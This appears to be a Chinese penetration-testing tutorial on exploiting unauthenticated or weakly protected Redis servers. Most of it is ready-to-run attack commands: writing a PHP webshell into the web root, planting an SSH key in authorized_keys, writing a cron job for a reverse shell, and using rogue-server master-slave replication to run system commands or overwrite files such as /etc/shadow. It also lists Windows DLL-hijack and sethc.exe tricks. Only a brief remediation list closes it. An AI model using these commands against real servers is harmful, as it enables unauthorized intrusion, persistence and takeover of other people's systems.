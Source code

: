 
# [](#redis-%E5%9C%A8%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E5%B8%B8%E8%A7%81%E7%9A%84%E5%88%A9%E7%94%A8%E6%96%B9%E5%BC%8F)Redis 在渗透测试中常见的利用方式

> 本文主要以 redis 未授权或已知 redis 口令为前提进行漏洞利用

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525095914.png-water_print](assets/1699409268-800973274304f4af7e1a76ce381ddb09 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525095914.png-water_print")

## [](#1-%E5%86%99%E5%85%A5-webshell)1 写入 webshell

条件：

-   已知 web 目录绝对路径
-   拥有该目录下的可写权限

查看所有键，创建新键，键值为 webshell，这里以写入 phpinfo 进行一个演示。

因为创建新键赋键值会把原来的键值覆盖，所以需要在赋值的时候需要查看所有的键，然后选择一个没有的键创建赋值。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>keys *<br>set x "\n\n<?php pnpinfo();?>\n"<br>get x<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100009.png-water_print](assets/1699409268-7795843d6bf34ee1243fb2ffbe84f220 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100009.png-water_print")

查看 redis 数据库配置信息，因为我们写 Webshell 会修改 `dir` 和 `dbfilename`，所以这里查看配置信息主要记下原来的值，好在写入后修改回来。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>config get *<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100101.png-water_print](assets/1699409268-844a3924230d5ff56b050abbedda7fc0 "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100101.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100117.png-water_print](assets/1699409268-fa07510f08dfc6fd627a82327572de6f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525100117.png-water_print")

设置 webshell 输出目录和文件名，然后写入 Webshell。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>``` | ```bash<br>config set dir /var/www    # 设置文件写入目录<br>config set dbfilename 1.php   # 设置写入文件名<br>save # 保存<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525101443.png-water_print](assets/1699409268-1dd3131b03f639e3e58c3a78d625c67c.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525101443.png-water_print")

最后，再还原数据库配置。

## [](#2-%E5%86%99%E5%85%A5-ssh-%E5%85%AC%E9%92%A5)2 写入 ssh 公钥

条件：

-   已知启动服务的用户
-   拥有 .ssh 目录
-   允许使用基于密钥认证的方式登陆

### [](#21-%E7%94%9F%E6%88%90%E5%85%AC%E7%A7%81%E9%92%A5%E5%AF%B9)2.1 生成公私钥对

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh-keygen -t rsa    # 生成公钥和私钥<br>``` |

### [](#22-%E5%88%A9%E7%94%A8-redis-config-%E5%86%99%E6%96%87%E4%BB%B6)2.2 利用 redis config 写文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>``` | ```bash<br>set x "\n\n公钥内容\n"<br>config set dir /home/user/.ssh<br>config set dbfilename authorized_keys<br>save<br>``` |

### [](#23-%E5%88%A9%E7%94%A8%E5%85%AC%E7%A7%81%E9%92%A5%E5%AF%B9%E7%99%BB%E5%BD%95)2.3 利用公私钥对登录

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>ssh -i id_rsa user@ip<br>``` |

## [](#3-%E5%86%99%E5%AE%9A%E6%97%B6%E4%BB%BB%E5%8A%A1%E5%8F%8D%E5%BC%B9-shell)3 写定时任务反弹 shell

条件：

-   拥有计划任务目录写权限
-   目标启动计划服务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```bash<br>keys *    查看所有键<br>set x "\n\n计划任务内容\n\n"    <br>config get *    <br>config set dir /var/spool/cron    <br>config set dbfilename root    <br>save    保存，完成文件写入<br>del x    删除创建的x键<br>``` |

## [](#4-%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6)4 主从复制

### [](#41-%E5%8A%A0%E8%BD%BD%E6%89%A9%E5%B1%95%E6%A8%A1%E5%9D%97%E6%89%A7%E8%A1%8C%E7%B3%BB%E7%BB%9F%E5%91%BD%E4%BB%A4)4.1 加载扩展模块执行系统命令

具体的原理在之前漏洞复现的文章中已经解释过。

脚本地址：[https://github.com/Dliv3/redis-rogue-server](https://github.com/Dliv3/redis-rogue-server)

主动连接模式：

参数说明

-   `--rpasswd` 如果目标 Redis 服务开启了认证功能，可以通过该选项指定密码
-   `--rhost` 目标 redis 服务 IP
-   `--rport` 目标 redis 服务端口，默认为 6379
-   `--lhost` vps 的外网 IP 地址
-   `--lport` vps 监控的端口，默认为 21000

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python3 redis-rogue-server.py --rhost <target address> --rport <target port> --lhost <vps address> --lport <vps port><br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104637.png-water_print](assets/1699409268-e4cb3b72ba47d7d07c2f852cd68d2a0f.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104637.png-water_print")

被动连接模式：

适用于目标Redis服务处于内网的情况

-   通过 SSRF 攻击 Redis
-   内网 Redis 未授权访问/已知 Redis 口令，Redis 需要反向连接 redis rogue server

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python3 redis-rogue-server.py --server-only<br>``` |

### [](#42-%E4%B8%BB%E4%BB%8E%E5%A4%8D%E5%88%B6%E5%86%99%E5%85%A5%E7%BA%AF%E5%87%80%E6%96%87%E4%BB%B6)4.2 主从复制写入纯净文件

在 linux 下，可以利用 SYNC 主从同步，来直接写入无杂质的文件，脚本如下：

[https://github.com/r35tart/RedisWriteFile](https://github.com/r35tart/RedisWriteFile)

此脚本是通过 `Redis` 主从写出无损文件，可用于 `Windows` 平台下写出无损的 `EXE`、`DLL`、 `LNK` 和 `Linux` 下的 `SO` 等二进制文件

也可以用无杂质覆写 `Linux` 中的 `/etc/shadow`

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>python3 RedisWriteFile.py --rhost 172.17.0.2 --rport 6379 --lhost 172.17.0.1 --lport 4444 --rpath "/var/www" --rfile "test.php" --lfile "./phpinfo.php"<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104700.png-water_print](assets/1699409268-fd5e9eac0c8cfe82b1c6638a50cd2f34.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104700.png-water_print")

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104744.png-water_print](assets/1699409268-8d87e395a92e9e3226b794201ba7f8d3.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20200525104744.png-water_print")

上述方法主要是针对 linux，当 windows 上未开启 web 服务时，该如何 getshell？

下面介绍下 redis 在 windows 下的常见打法：

1.  系统 `DLL` 劫持 （目标重启或注销）
2.  针对特定软件的 `DLL` 劫持（目标一次点击）
3.  覆写目标的快捷方式 （目标一次点击）
4.  覆写特定软件的配置文件达到提权目的 （目标无需点击或一次点击）
5.  覆写 `sethc.exe` 等文件 （攻击方一次触发）

参考：[http://r3start.net/index.php/2020/05/25/717](http://r3start.net/index.php/2020/05/25/717)

## [](#5-%E6%BC%8F%E6%B4%9E%E4%BF%AE%E5%A4%8D)5 漏洞修复

-   设置密码认证
-   尽量以低权限来运行 Redis 服务
-   限制登录 IP
